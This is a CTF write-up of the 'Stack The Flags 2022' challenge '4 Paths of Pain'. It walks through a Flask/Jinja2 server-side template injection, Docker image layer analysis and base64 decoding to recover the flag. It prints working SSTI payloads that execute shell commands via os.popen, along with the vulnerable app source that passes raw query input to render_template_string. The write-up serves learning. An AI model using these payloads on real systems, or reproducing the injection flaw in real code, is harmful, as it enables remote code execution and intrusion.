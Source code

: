 ```yaml
---
title: "Stack The Flags 2022 - 4 Paths of Pain (Write Up)"
date: 2022-12-14T09:34:30-04:00
categories:
  - CTF
tags:
  - CTF
  - STF22
  - SSTI
  - Flask
  - Jinja2
comments: true

---
```



Recently, a few colleagues and I participated in **Stack The Flags 2022**, a CTF organised by **Govtech Singapore**. My goal was to learn a thing or two from trying to solve the challenges even if I was not able to successfully complete them.

The CTF was 48 hours and had over 50 challenges spanning from multiple categories such as Forensics, Web, Crypto, OSINT and etc.

This is my writeup for one of the Misc challenge, **4 Paths of Pain**.

![pain.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/pain.jpg)

## 4 Paths of Pain 

* Flag: ```STF22{P41n_1s_411_th3_s4m3}```
* Category: Misc
* Difficulty: Easy
* Points: 1000 (Decayed to 400 points by the end of the CTF)

---

### Inspecting the Web App


Main Page:
![index.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/index.png)


Source Code:
![sourcecode.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/sourcecode.png)

```html
<h1>I can't seem to find the defense blueprints man</h1>
<p hidden>Hey Jaga, please help us defend our village, I have left the blueprints of the secret weapon in a file - blueprint.img. It's hidden in layers so even if Pain does get it, he cant view it. </p>
<p hidden> Remember to take a look at the source code of this server! it should help you locate what you need. God speed! - Corona2019</p>
<input hidden type="button" onclick="location.href='?nopain=haha';" value="haha" />
```

The source code revealed to us that the secret weapon is in a file called 'blueprint.img'.
We also observed that there is a hidden button that points to `?nopain=haha`

![parameter.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/parameter.png)

Navigating to the URL, we see that the web application displays the input after `?nopain=`

With this knowledge, we probe further using Postman to try and find more information about the webserver.

In the headers of the response, we see that the server is using Werkzeug 2.2.2.

![werkzeug.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/werkzeug.png)

I started to do some OSINT on Werkzeug to find any known vulnerabilities related to it. During my research, I found this [writeup][htb-doctor] by Zander Work which showcased Server-Side Template Injection (SSTI). According to Zander Work, *SSTI vulnerability is present when unsanitized input is passed to a template before it is rendered, rather than as an input to the render engine as it renders the template.* Hence, I prepared a simple payload for Jinja2 to test for SSTI vulnerability.

\{\{7*7\}\}

If the web application is vulnerable to SSTI, the expected response will be 49. I do not have a screenshot of this but I remember doing this step to confirm that this web server was truly vulnerable to SSTI.

### Exploiting SSTI Vulnerability

With that, I prepared a payload to list the files in the current directory.
![ls.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/ls.jpg)

We can see that there are 4 files with `blueprint.img` being one of them.
```
-app.py
-blueprint.img
-requirements.txt
-templates
```
Inspecting `requirements.txt` with the following payload:
```
{% raw %}157.245.52.169:32512/?nopain={{request.application.__globals__.__builtins__.__import__("os").popen("cat requirements.txt").read()}}{% endraw %}
```
```
click==8.1.3
Flask==2.2.2
itsdangerous==2.1.2
Jinja2==3.1.2
MarkupSafe==2.1.1
Werkzeug==2.2.2
```
We observed that Jinja2 was installed.

Inspecting `app.py` with the following payload:
```
{% raw %}157.245.52.169:32512/?nopain={{request.application.__globals__.__builtins__.__import__("os").popen("cat app.py").read()}}{% endraw %}
```
```python
from flask import Flask, render_template, make_response, request, render_template_string, send_file from datetime import datetime import base64 app = Flask(__name__)

@ app.route('/')

def page2():
  if request.args.get('nopain'):
  return render_template_string(request.args.get('nopain'))
  else:
    return render_template('defendthevillage.html')

@ app.route('/defendthevillagefrompain', methods=['GET'])

def page3():
  try: return send_file('./blueprint.img')
  except Exception as e:
    return str(e) if __name__ == "__main__": app.run(host="0.0.0.0", port=8086)
```
From the source code, we noticed that there is a path to `/defendthevillagefrompain`. A `GET` request to `157.245.52.169:32512/defendthevillagefrompain` will return `./blueprint.img`. We managed to download `blueprint.img` once we entered the URL in the browser.

### Analysing Blueprint.img

![blueprint.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/blueprint.png){:height="350px" width="350px"}

We found out that we could easily use 7Zip to extract and reveal the content in blueprint.img.

![7zip.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/7zip.png){:height="700px" width="700px"}

Looking at `786fa91039940fa3967fb214d152d1b933d6d83dc1dfbc53c70aaceda221c391.json`, it seems like the creator of the challenged copied secret-message.txt from his environment into one of the container volumes.

```
...
    {
      "created": "2022-11-18T02:49:23.301698469Z",
      "created_by": "COPY secret-message.txt /usr/src/app # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    {
      "created": "2022-11-18T02:49:23.47397059Z",
      "created_by": "RUN /bin/sh -c rm -rf /usr/src/app/secret-message.txt # buildkit",
      "comment": "buildkit.dockerfile.v0"
    },
    {
      "created": "2022-11-18T02:49:23.47397059Z",
      "created_by": "CMD [\"/bin/sh\" \"-c\" \"\\\"whoami\\\"\"]",
      "comment": "buildkit.dockerfile.v0",
      "empty_layer": true
    }
...

```
The log file tells us that  `secret-message.txt` is stored in the location `/usr/src/app`. While there were a few folders, this narrows down the folder we will be looking for. By browsing through the different folders, we managed to find `secret-message.txt` in `23202ee5821e24d35c5207fc2b00ccff278c5cc45200aa218e18d09b0823b148/layer.tar` using 7zip.

![secretmessagefound.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/secretmessagefound.png){:height="700px" width="700px"}

### Revealing the secret message... (wait a minute)

We opened `secret-message.txt` expecting to find a flag but it was just a message telling us to find the last hiding place.

![secretmessage.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/secretmessage.png){:height="350px" width="350px"}

At this point we didn't really know what to do with this information but we thought that the location looks a little familiar. We thought it could either be the name of a Github or Dockerhub Repo.

So we searched on DockerHub and at last, we found the last hiding place!

![dockerhub.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/dockerhub.png)

The description of the Docker Image - `U1RGMjJ7cDQxbl8xc180MTFfdGgzX3M0bTN9` looks like an encoded string of text.

To decode this string of text, we used the magic wand feature in CyberChef which was able to identify that the encoded string was in Base64.


![cyberchef.png]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/cyberchef.png)

Finally, we were able to find the flag for this challenge! We managed to use the secret weapon and defend Konoha against Pain!

![iruka.jpg]({{ site.url }}{{ site.baseurl }}/assets/images/2022-12-14-stf22-4-paths-of-pain/iruka.jpg)



[htb-doctor]: https://zanderwork.com/blog/htb-doctor/
